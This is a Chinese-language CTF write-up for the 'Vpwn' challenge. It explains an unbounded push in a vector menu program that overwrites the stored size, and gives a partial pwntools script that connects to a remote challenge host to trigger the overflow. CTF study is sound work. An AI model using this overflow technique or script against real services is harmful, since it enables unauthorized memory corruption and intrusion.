 #### 1:[西湖论剑]Vpwn

拿到题目,发现给了一个功能菜单

```c++
    std::operator<<<std::char_traits<char>>(&std::cout, "\nMenu:\n");
    std::operator<<<std::char_traits<char>>(&std::cout, "1. Edit an element in the vector\n");
    std::operator<<<std::char_traits<char>>(&std::cout, "2. Push a new element\n");
    std::operator<<<std::char_traits<char>>(&std::cout, "3. Pop the last element\n");
    std::operator<<<std::char_traits<char>>(&std::cout, "4. Print vector\n");
    std::operator<<<std::char_traits<char>>(&std::cout, "5. Exit\n");
```

可以看到是一个类似栈的数据结构,包括了出入栈,打印整个栈.和根据下标修改栈内容的功能.题目的漏洞非常明显,入栈的功能没有对栈的大小进行限制,因此可以溢出到存储栈大小的变量的内存位置,修改栈的大小,让edit和print功能的限制被绕过.

那么我们编写脚本如下:

```python
from pwn import *

context.log_level = 'debug'
#context.arch = 'amd64'
#r=process("./Vpwn")
r=remote("139.155.126.78",25715)
pause()
r.recvuntil("Enter your choice:")
r.sendline(b"2")
r.recvuntil(b"Enter the value to push:")
r.sendline(b"0")
r.recvuntil("Enter your choice:")
r.sendline(b"2")
r.recvuntil(b"Enter the value to push:")
r.sendline(b"0")
r.recvuntil("Enter your choice:")
r.sendline(b"2")
r.recvuntil(b"Enter the value to push:")
r.sendline(b"0")
r.recvuntil("Enter your choice:")
r.sendline(b"2")
r.recvuntil(b"Enter the value to push:")
r.sendline(b"0")
r.recvuntil("Enter your choice:")
r.sendline(b"2")
r.recvuntil(b"Enter the value to push:")
r.sendline(b"0")
r.recvuntil("Enter your choice:")
r.sendline(b"2")
r.recvuntil(b"Enter the value to push:")
r.sendline(b"0")
r.recvuntil("Enter your choice:")
r.sendline(b"2")
r.recvuntil(b"Enter the value to push:")
r.sendline(b"60")
```
